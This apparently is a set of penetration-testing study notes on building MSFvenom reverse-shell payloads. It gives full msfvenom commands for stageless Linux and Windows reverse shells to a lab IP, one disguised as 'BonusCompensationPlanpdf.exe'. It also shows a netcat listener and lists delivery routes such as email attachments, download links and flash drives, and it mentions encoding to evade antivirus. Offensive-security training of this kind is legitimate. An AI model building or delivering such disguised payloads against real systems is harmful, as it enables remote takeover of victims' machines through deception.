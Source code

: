 - There will be situations where we do not have direct network access to a vulnerable target machine. In these cases, we will need to get crafty in how the payload gets delivered and executed on the system
- <span style="color:rgb(0, 176, 80)">MSFvenom</span> also allows us to `encrypt` & `encode` payloads to bypass common anti-virus detection signatures. Let's practice a bit with these concepts.

```bash
msfvenom -l payloads
```
list all the payload present in msfvenom
- staged - makes a stage in the target
- stageless - no need to stage any payloads low bandwidth
[more about stagless](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/)

#### Building A Stageless Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

`-p` create a payload
`-f elf ` The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

#### execute the payload

- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.

#### Building a simple Stageless Payload for a Windows system

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

```shell-session
sudo nc -lvnp 443
```
for the listing 